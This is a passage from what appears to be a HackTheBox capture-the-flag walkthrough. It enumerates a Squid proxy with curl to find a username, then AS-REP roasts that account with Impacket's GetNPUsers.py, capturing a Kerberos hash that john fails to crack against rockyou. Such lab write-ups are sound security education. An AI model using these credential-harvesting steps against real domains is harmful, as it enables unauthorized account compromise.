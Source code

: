I’ll save the HTML that comes back as a file and open it in Firefox:

```

oxdf@parrot$ curl -s --proxy 10.10.10.224:3128 http://10.10.10.224 > 10.10.10.224.html
oxdf@parrot$ firefox 10.10.10.224.html

```

The resulting page has some useful info:

![image-20210606110713223](https://0xdfimages.gitlab.io/img/image-20210606110713223.png)

The cache administrator’s email is `j.nakazawa@realcorp.htb`. The hostname at the bottom is `srv01.realcorp.htb`.

If I do the exact same thing, but request `http://127.0.0.1` instead of `http://10.10.10.224`, there’s actually a different error:

```

oxdf@parrot$ curl -s --proxy 10.10.10.224:3128 http://127.0.0.1 > 127.0.0.1.html
oxdf@parrot$ firefox 127.0.0.1.html

```

![image-20210606110849958](https://0xdfimages.gitlab.io/img/image-20210606110849958.png)

The first time it said the request was unauthorized, but this time it says the connection failed. This implies that the requirement for authentication may not apply to localhost.

### AS-REP-ROAST

With the username, I can try to get a hash off of Kerberos using `GetNPUsers.py`. This will return a hash if the `UF_DONT_REQUIRE_PREAUTH` flag is set for the user. It works:

```

oxdf@parrot$ GetNPUsers.py -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa | tee j.nakazawa.hash
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa@REALCORP.HTB:7587a44ff02ac18b6d395220a463a359$108aeca04223f28b985c5e9e48314e4de555620574e3af19f201cb17968e973a8fb4e69a38681159d2b032f4807680f8d68547eb2407a56c5a5293fe633769e80d20ec7c88e1b5958676645adbf2f08c15e472053db9e65785815084bce1ddc76ef43bbda02cc685411378d82f72fda5abc6c51ca33019da4cbf27b62713f85d67429743f3abb622264766c4772fe1f9ed38433f4e1eef729905dde9419d4bbe2291c5a79765c7198564bae8745e26dcd99fae17539669b87722b7cd8b06d067589ecd5d364a0af81d7f97d7ef22bdf73e2a66e71c03559ebdb9

```

This type of hash [isn’t implemented in hashcat yet](https://github.com/hashcat/hashcat/issues/2603), but `john` will give it a run:

```

oxdf@parrot$ john j.nakazawa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:40 DONE (2021-06-06 15:19) 0g/s 352773p/s 352773c/s 352773C/s        1..*7¡Vamos!
Session completed

```
